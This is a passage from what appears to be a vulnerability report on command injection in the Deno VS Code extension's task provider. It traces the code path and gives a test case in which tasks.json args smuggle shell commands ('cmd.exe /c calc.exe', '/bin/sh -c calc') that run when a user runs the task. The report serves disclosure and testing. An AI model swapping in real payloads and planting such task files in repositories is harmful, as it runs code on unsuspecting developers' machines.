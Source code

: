     2.  **`client\src\tasks.ts` - `DenoTaskProvider.resolveTask()` and `provideTasks()`:** These functions are responsible for providing and resolving tasks, using `buildDenoTask()` to create task objects. The task definitions are parsed from `tasks.json` and `deno.json` files (although not explicitly shown in provided files, the description mentions it).

    3.  **`client\src\tasks_sidebar.ts` - Task execution:** The task sidebar and related commands (`deno.client.runTask`, `deno.client.debugTask`) trigger the execution of these tasks via `vscode.tasks.executeTask()`.

    **Visualization:**

    ```
    Malicious Task Definition (tasks.json/deno.json) --> DenoTaskProvider (parses tasks) --> buildDenoTask() --> ProcessExecution (executes command and args) --> Command Injection
    ```

*   **Security Test Case:**
    1.  Create a new directory `malicious-task-repo`.
    2.  Inside `malicious-task-repo`, create a `.vscode` directory.
    3.  Inside `.vscode`, create a `tasks.json` file with the following content (for Windows, adapt for Linux/macOS):
        ```json
        {
          "version": "2.0.0",
          "tasks": [
            {
              "type": "deno",
              "command": "run",
              "args": [
                "-A",
                "-c",
                "C:\\Windows\\System32\\cmd.exe /c calc.exe"
              ],
              "label": "Malicious Task"
            }
          ]
        }
        ```
        For Linux/macOS, use:
        ```json
        {
          "version": "2.0.0",
          "tasks": [
            {
              "type": "deno",
              "command": "run",
              "args": [
                "-A",
                "-c",
                "/bin/sh -c 'calc'"
              ],
              "label": "Malicious Task"
            }
          ]
        }
        ```
    4.  Open the `malicious-task-repo` in VSCode.
    5.  Open the Task sidebar (if not visible, View -> Open View -> Deno Tasks).
    6.  Find the "Malicious Task" in the Deno Tasks sidebar.
    7.  Right-click on "Malicious Task" and select "Run Task".
    8.  Observe that the calculator application (or equivalent command) is executed. This indicates successful command injection via task definition.

